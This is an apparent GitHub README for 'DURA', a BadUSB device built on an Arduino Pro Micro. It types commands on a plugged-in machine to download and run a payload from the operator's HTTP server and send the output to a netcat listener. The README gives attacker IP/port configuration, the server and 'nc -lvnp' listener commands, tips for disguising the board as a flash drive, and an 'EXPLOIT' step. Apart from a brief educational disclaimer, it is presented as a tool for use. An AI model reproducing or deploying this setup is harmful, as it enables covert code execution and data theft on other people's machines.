

# DURA - BadUsb project
## About
DURA is Bad USB, which deploys file on VM and sends output to external server(nc listener). \
Made with Arduino Pro Micro. Wrote with C++. 
## Disclaimer!
This project was made only in educational purposes. I don`t take any responsobility if you \
use it in criminal or offensive ways.
## Build
### Tech part
For DURA you will need arduino pro micro or any other board, which supports Keyboard.h. \
Also i used father-father microUSB to USB micro-wire to make it look more like USB flash. \
You can see blueprint down below.



### Code Compiling
To upload script to Arduino you will need Arduino IDE. \
You can install it here - https://www.arduino.cc/en/software. \
Open .ino script with Arduino IDE, install Keyboard.h in libraries manager.\
Also edit this part of code to your AM ip, port and payload name. \
```
String ipGET = "0.0.0.0:8000"; // GET server ip and port. Format: 0.0.0.0:8000
String ipPOST = "0.0.0.0:8001"; // NetCat listener ip and port. Format: 0.0.0.0:8000
String payloadName = "example.bat"; // Name of payload. Payload must be in the main folder of server.
```
If you have not .bat payload, you might change 31, 35 and 58 strings of code. \
Click "Upload" and it`s done! 

### Server Setup
To set server you`ll need NetCat and Python. \
Also your router must have 2 forwarding ports from your device (8000 and 8001 in my case). 

To setup Python server(to upload file to VM) you must enter this command:
```
# python3 -m http.server 8000
```

To setup NetCat listener(to get results) you must enter this command:
```
# nc -lvnp 8001
```
### EXPLOIT!!!
To exploit you need just to plug device in VM and wait 8-10 seconds.

### P. S.
You can use any payload, which outputs useful info.

## That`s it!
Hope you like this project! \
Follow me on GitHub!


